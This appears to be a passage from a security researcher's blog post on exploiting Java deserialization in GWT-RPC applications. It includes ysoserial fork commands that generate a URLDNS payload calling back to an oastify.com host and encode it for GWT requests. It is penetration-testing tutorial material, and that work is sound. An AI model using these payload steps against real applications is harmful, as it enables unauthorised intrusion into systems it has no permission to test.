 ## Exploiting a Vulnerable Application

If you already have a live GWT-based application to test against, you can use the steps in this section to try exploiting it. If you don’t have access to an existing application, the “Building an example vulnerable application to test against” section, below, will walk you through quickly deploying one to practice with.

First, you’ll need a deserialization payload. As I mentioned earlier in this post, GWT’s serialization is based on the Java standard format, but it uses a specific pattern that will prevent standard exploit tool output from working. Instead of the stream directly containing a single object, it begins with an integer indicating the number of fields in the stream. For each field, the stream contains a string that represents the field name, and an arbitrary object for the field value.

I didn’t find an easy way to prepend the necessary information to an object, and `ysoserial` did not seem to be actively maintained, so [I created a fork that adds the necessary features](https://github.com/BishopFox/ysoserial-bf) (and also incorporates some additional code that others have submitted for inclusion in `ysoserial`). It can generate all of the standard `ysoserial` payloads (including several that hadn’t been merged into the main branch), but adds a `--gwt` option to create those payloads formatted for use in a GWT-RPC request. The `--gwt` option requires one additional parameter, which is the field name to include in the object stream. The specific field name is generally unimportant, but some value needs to be specified for GWT to recognize the payload as valid. In the example below, the field will be named bishopfox:

```bash
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
   --gwt bishopfox URLDNS \
   "https:// dvc5ng8w4odw47m0a8qk45hdv41vpndc.oastify.com/URLDNS" \
   > gwt_urldns.bin
```

**FIGURE 3** - Generating `URLDNS` payload in GWT-RPC format

GWT-RPC uses a customized version of Base64 where the + character has been replaced with $, and the / character replaced with \_, so the next step is to encode the payload.

One can use standard Base64 operations, but replace + with $ and / with \_ (or vice-versa) in the encoded input or output. For example:

```bash
$ base64 -w0 gwt_urldns.bin \
   | sed 's/+/\$/g' \
   | sed 's./._.g' \
   > gwt_urldns.bin.gwt_b64
```

**FIGURE 4** - Encoding example payload for use in GWT-RPC request

Of course, generation and encoding can be combined into a single command:

```bash
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
   --gwt bishopfox URLDNS \
   "https:// dvc5ng8w4odw47m0a8qk45hdv41vpndc.oastify.com/URLDNS" \
   | base64 -w0 \
   | sed 's/+/\$/g' \
   | sed 's./._.g' \
   > gwt_urldns.bin.gwt_b64
```
